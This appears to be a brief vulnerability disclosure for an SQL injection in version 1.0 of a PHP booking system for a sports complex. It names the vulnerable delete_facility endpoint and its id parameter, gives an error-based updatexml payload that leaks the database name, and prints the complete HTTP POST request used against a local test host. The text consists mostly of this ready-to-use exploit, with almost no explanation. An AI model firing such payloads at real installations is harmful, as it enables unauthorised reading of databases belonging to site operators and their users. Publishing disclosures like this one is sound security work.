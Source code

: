 # Online Sports Complex Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15236/online-sports-complex-booking-system-phpmysql-free-source-code.html

Vulnerability File: \scbs\classes\Master.php?f=delete_facility

Vulnerability location: /scbs/classes/Master.php?f=delete_facility, id

[+] Payload: id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+

```sql
POST /scbs/classes/Master.php?f=delete_facility HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/scbs/admin/?page=facilities
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p5eujbkhl692v4hpr6ltptnq06
Connection: close

id=4' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+// Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/165213106-67a3060f-9d23-4fa0-ba6d-db6392e02552.png)


